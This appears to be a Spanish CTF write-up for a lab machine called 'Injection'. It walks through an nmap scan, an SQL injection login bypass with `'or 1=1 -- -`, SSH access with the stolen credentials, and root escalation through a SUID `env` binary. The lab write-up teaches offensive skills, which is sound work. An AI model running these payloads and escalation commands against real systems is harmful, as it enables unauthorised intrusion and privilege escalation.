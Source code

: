 # Maquina Injection

Dificultad : Muy Facil

## Fase de Escaneo

Vamos a realizar un escaneo con nmap a los puertos, servicios y versiones de la maquina victima.

```
nmap -sVC -sS -n -Pn -p- 172.17.0.2
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-21 22:07 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000010s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.86 seconds
```
### Parametros de Escaneo

`-sS` - SYN Scan (Stealth Scan)
- Envian paquetes SYN sin completar el handshake TCP
- Escaneo mas rapido y discreto
- Requiere privilegios de administrador

`-sV` - Deteccion de versiones
- Detecta que servicios y versiones corren en los puertos abiertos
- Analiza las respuestas para identificar el software

`-sC` - Scripts por Defecto 
- Ejecuta los Scripts NSE (Nmap Scripting Engine) predeterminados
- Realiza pruebas de seguridad basicas y recoleccion de informacion

### Parametros de Configuracion

`-n` - Sin Resolucion DNS
- No realiza resolucion DNS inversa
- Escaneo mas rapido al sltarse las busquedas DNS

`-Pn` - No Ping
- Trata todos loshosts como activos
- Util cuando el objetivo bloquea request de ping

`-p-` - Todos los puertos
- Escanea los 65,535 puertos TCP
- Equivalentes a `-p 1-65535`

### Convinaciones Especiales

`-sVC`
- Convina de `-sV` (deteccion de versiones) y `-sC` (scripts)
- Muy completo para reconocimiento

## Indagacion Web
Revisamos el servicio corriendo en el puerto **80** a travez de un browser

![screenshot-login](./resource/login.png)

Probamos con una inyeccion basica de SQL colocando `'or 1=1 -- -` en el nombre del usuario y cualquier password.

![injection-screen](./resource/injection.png)

Logramos ingresar al sistema y nos brinda un password y un usuario que podremos usar para ingresar al otro servicio expuesto.

![success-screen](./resource/login-success.png)

## Servicio SSH puerto 22
Ahora con la informacion que obtuvimos del sitio web vamos a probar acceder al servicio ssh con el usuario `dylan` y el password con el siguiente comando

```
ssh 172.17.0.2 -l dylan
```

Tambien puede ser de la siguiente forma que es mas comun

```
ssh dylan@172.17.0.2
```

Ahora nos va a pedir el password que obtuvimos anteriormente

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:5ic4ZXizeEb8agR4jNX59cBONCe5b5iEcU9lf2zt0Q0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@a83a137e0699:~$ 
```

Ahora podemos verificar que somos el usuario Dylan y vamos a averiguar a que grupo pertenemos y que permisos tenemos
```
cat /etc/group
```

```
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:
floppy:x:25:
tape:x:26:
sudo:x:27:
audio:x:29:
dip:x:30:
www-data:x:33:
backup:x:34:
operator:x:37:
list:x:38:
irc:x:39:
src:x:40:
gnats:x:41:
shadow:x:42:
utmp:x:43:
video:x:44:
sasl:x:45:
plugdev:x:46:
staff:x:50:
games:x:60:
users:x:100:
nogroup:x:65534:
mysql:x:101:
ssl-cert:x:102:
dylan:x:1000:
```

## Escalacion de Privilegios
Ahora que tenemos un panorama mas claro de los usuarios y grupos en el sistema vamos a buscar programas o binarios que tenan permisos SUID.
```
find / -perm -4000 -user root 2>/dev/null
```

```
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/env
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Ya con un poco de experiencia puedes distingir lo binarios comunes y los que son un poco raros como es el caso del binario `/usr/bin/env` porque tiene permisos elevados en el sistema siendo un binario de enviroment
```
cd /usr/bin && ./env /bin/sh -p
```

Y ya tendremos acceso al sistema como root 

```
# whoami
root
```

# Maquina Pwneada